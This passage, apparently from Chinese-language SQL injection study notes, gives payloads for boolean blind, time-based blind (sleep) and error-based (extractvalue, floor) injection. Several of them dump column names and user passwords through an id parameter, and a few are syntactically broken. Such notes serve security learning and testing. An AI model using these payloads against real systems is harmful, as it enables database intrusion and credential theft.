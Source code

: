 limit 0,1 是从第零行开始查询 1 行



查询列名：

```
?id=-1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='user' limit 0,1),1,1))>100 --+
```

### 3.时间盲注

判断库名长度

```
?id=1' and if(length(database())>8,sleep(2),0) --+
```

判断库名

```
?id=1' and if(ascii(substr(database(),1,1))=115,sleep(2),0) --+
此为判断第一个字母的ascii码是否为115
```



## 3.报错注入

### extractvalue 报错

```
?id=100' union select 1,extractvalue(1,concat(0x7e,(select database()))),3 --+
```

```sql
?id=100' union 1=extractvalue(1,concat(0x7e,(select database()))),3 --+
```

默认只能返回 32 个字符，使用 substring 解决这个问题，返回第 25 个字符再往后显示 30 个字符

```
?id=100' union 1=extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30)from users))) --+ 
```

### floor 报错

concat_ws 作用是连接

使用 group_concat 无法显示可以使用 concat

```
?id=0' union select 1,count(*),concat_ws('-',(select group_concat(table_name) from information_schema.tables where table_schema=database()),floor(rand(0)*2))as a from information_schema.tables group by a --+
```

```
?id=0' union select 1,count(*),concat_ws('-',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),floor(rand(0)*2)) as a information_schema.tables group by a --+
```
